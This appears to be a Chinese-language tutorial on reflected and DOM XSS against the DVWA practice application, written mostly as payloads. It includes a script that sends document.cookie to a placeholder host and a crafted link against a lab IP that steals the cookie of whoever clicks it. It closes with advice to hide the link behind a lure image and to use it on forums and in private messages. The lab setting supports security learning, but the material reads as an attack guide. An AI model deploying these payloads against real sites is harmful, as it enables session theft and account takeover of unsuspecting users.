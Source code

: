 ## 反射型XSS漏洞
### 1、登陆DVWA，设置LOW的安全界别
![image](https://github.com/498946975/Security/blob/master/images/xss_1.png)
### 2、执行js代码的2种方式
```yaml
1、使用<srpipt>js代码</script>标签
    <script>alert(1)</script>
2、使用事件的方式执行js代码
```
### 3、使用image的onerror的事件，执行js代码
```yaml
img标签支持onerror 事件，在装载文档或图像的过程中如果发生了错误，就会触发onerror事件。
```
#### 获取当前站点的cookie
```shell script
<img src=## onerror=alert(document.cookie)>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_2.png)
### 4、a标签，实行js代码
#### 鼠标移动到这的时候，才执行代码
```shell script
<a onmouseover=alert(document.cookie)>xxs link</a>
```
![image](https://github.com/498946975/Security/blob/master/images/xss_3.png)

### 5、DOM的xss反射
#### 1、反弹cookie
```shell script
<script>var img=document.createElement("img");img.src=alert(document.cookie); </script>
```
```yaml
代码解析：
    1、定义一个img变量
    2、这个变量就是html里面的标签，因为是document.XXX
    3、img变量的值是alert（document.cookie）
```
### 6、发送当前cookie到某个服务器
#### 必须登陆才能访问cookie
#### 一般情况下，从web服务的日志中查看cookie
#### 把cookie弹出来，访问这个http链接，上传到服务器日志
#### 用法就是
```shell script
<script> var img=document.createElement("img");img.src="http://xxxx/a?"+escape(document.cookie);
```
#### 以下链接，谁点，就发送谁172.16.120.252:8080的cookie到 http://xxxx/a?
```shell script
http://172.16.120.252:8080/vulnerabilities/xss_r/?name=<script> var img=document.createElement("img");img.src="http://xxxx/a?"+escape(document.cookie);
```
#### 诱导性图片，嵌入以上链接，更容易得手。
### 7、常用攻击场景
```yaml
论坛，留言，站内信，利用成功率更高。
```